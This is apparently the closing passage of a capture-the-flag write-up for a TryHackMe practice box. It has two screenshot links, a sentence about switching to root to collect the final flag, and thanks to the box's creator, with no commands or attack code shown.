

Finally, I switch users to root and grab the final flag inside /root directory to finish out the challenge. There's also a note from the box's developer which I recommend reading.



That's all y'all, this box was a fun one that really tested enumeration and researching skills. Big thanks to [Nirza](https://tryhackme.com/p/nirza) for creating this challenge as well. I hope this was helpful to anyone following along or stuck and happy hacking!
